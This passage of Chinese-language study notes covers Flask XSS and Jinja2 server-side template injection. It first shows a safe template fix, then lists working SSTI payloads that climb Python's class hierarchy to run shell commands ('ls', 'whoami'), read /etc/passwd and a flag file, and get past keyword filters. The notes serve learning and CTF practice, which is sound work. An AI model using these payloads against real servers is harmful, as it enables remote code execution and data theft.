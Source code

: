 正常使用：
![](../../../../../img/Pasted%20image%2020240921194704.png)


==注入==：
![](../../../../../img/Pasted%20image%2020240921194643.png)

修改代码以避免直接的 XSS 注入：
```python
@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```
- 用 `{{}}` 传递变量，**模板引擎**会对渲染的变量进行编码转义，所以不会执行恶意脚本，仅回显脚本内容

---

## 模板注入

- 文件读取/命令执行

`{{}}`并不仅仅可以传递变量，还可以执行一些简单的表达式。

以上一个 part 的 ssti.py 代码为例，注入 `id={{2*4}}`  :
![](../../../../../img/Pasted%20image%2020240924100108.png)
`
一般思路：找到父类`<type 'object'>`-->寻找子类-->找关于命令执行或者文件操作的模块

### 手工 payload
```c
# 先 {{''.__class__.__mro__[1].__subclasses__()}} 找子类

# index 函数返回子类的索引
{{''.__class__.__mro__[2].__subclasses__().index('file')}}

[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')  

# classified by subclasses

# class warnings.catch_warnings -> linecache -> os
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}
# rce's result could be returned by curling 

# class site._Printer
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}

# type 'file'
{{''.__class__.__mro__[1].__subclasses__()[xx]('/etc/passwd').read()}}

# WarningMessage -> builtins -> file
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()}}

# WarningMessage -> builtins -> eval
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}

# class 'os._wrap_close' -> builtins -> chr  用于绕过
{% set chr= ''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['_''_bui''ltins_''_']['chr']%}

```